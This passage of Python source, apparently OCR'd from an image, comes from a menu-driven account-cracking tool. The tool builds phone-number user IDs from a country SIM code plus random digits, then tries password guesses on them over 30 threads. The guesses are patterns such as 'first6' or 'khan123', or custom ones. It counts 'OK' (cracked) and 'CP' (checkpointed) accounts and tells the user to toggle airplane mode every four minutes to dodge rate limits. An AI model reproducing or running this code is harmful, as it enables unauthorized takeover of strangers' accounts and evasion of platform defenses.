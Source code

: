     mtd=input(f" \x1b[38;5;160m[\033[1;37m◆\x1b[38;5;160m] \x1b[38;5;46mCHOICE \033[1;37m➠ {green}");clear()
    print(f" \x1b[38;5;160m[\033[1;37mA\x1b[38;5;160m]\x1b[38;5;46m AUTO PASSWORD")
    print(f" \x1b[38;5;160m[\033[1;37mB\x1b[38;5;160m]\x1b[38;5;46m CHOICE PASSWORD");line()
    __CH__ = input(f" \x1b[38;5;160m[\033[1;37m◆\x1b[38;5;160m] \x1b[38;5;46mCHOICE {red}➠ {green}")
    if __CH__ in ["A","a","1"]:
        plist.append('first6')
        plist.append('last6')
        plist.append('first7')
        plist.append('last7')
        plist.append('first8')
        plist.append('last8')
        plist.append('last11')
        plist.append('khan123')
        plist.append('khan786')
        plist.append('khankhan')
        plist.append('khan khan')
        plist.append('khan1234')
        plist.append('khan12345')
        plist.append('102030')
        plist.append('203040')
    elif __CH__ in ["B","b","2"]:
        clear()
        psl = int(input(f' {red}[{green}●{red}] {green}INPUT PASS LIMITS {red}➠ {green}'));line()
        print(f" {red}[{green}●{red}] {green}EXAMPLE {red}[{white} first6,first8,last6,last8")
        line()
        for i in range(psl):
            plist.append(input(f' {red}[{green}●{red}] {green}PASSWORD NO.{i+1} {red}➠ {green}'));line()
    for x in range(limit):
        nmp = "". join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    clear()
    with ThreadPoolExecutor(max_workers=30) as error:
        clear()
        print(f' {red}[{green}●{red}]{green} SIM CODE  {red}:{green} {code} {red}➠{green} METHOD {red}: {green}{mtd}')
        print(f' {red}[{green}●{red}]{green} TOTAL UID {red}:{green} %s ' %len(user))
        print(f' {red}[{green}●{red}]{green} TURN {red}[{white}ON{red}/{white}OFF{red}]{green} AIRPLANE MODE EVERY {white}4{green} MIN');line()
        for love in user:
            ids = code + love
            xxc= [love,ids,love[1:],love[2:],ids[5:],ids[4:],ids[3:],ids[2:],ids[1:],ids[0:],ids[:6],ids[:7],ids[:8],ids[:9],ids[:10]]
            tl = len(user)
            psd = xxc
            psd = plist
            if mtd in ['A','a','01','1']:error.submit(randm, ids, psd,tl)
            elif mtd in ['B','b','02','2']:error.submit(randm1, ids, psd,tl)
            elif mtd in ['C','c','03','3']:error.submit(randm2, ids, psd,tl)
            elif mtd in ['D','d','04','4']:error.submit(randm3, ids, psd,tl)
            elif mtd in ['5','e','05','E']:error.submit(randm4, ids, psd,tl)
            elif mtd in ['6','f','06','F']:error.submit(randm5, ids, psd,tl)
    print('')
    print(f'\r{red}◆{white}━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━{red}◆{white}')
    print(f' {red}[{green}●{red}]{green} THE PROCESS HAS BEEN COMPLETE...')
    print(f' {red}[{green}●{red}]{green} TOTAL OK {red}:{green} %s' % str(len(oks)))
    print(f' {red}[{green}●{red}]{green} TOTAL CP {red}:{green} %s' % str(len(cps)))
    print(f'\r{red}◆{white}━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━{red}◆{white}')
    input(f" {red}[{green}●{red}]{green} PRESS ENTER TO BACK MENU ")
    ___ImRAn___MaIN___MenU___()
#---------NEPAL
def ___NP___():
    clear()
    print(f' {red}[{green}◆{red}] {green}SIM CODES {red}➠ {green}+977 ETC ');line()
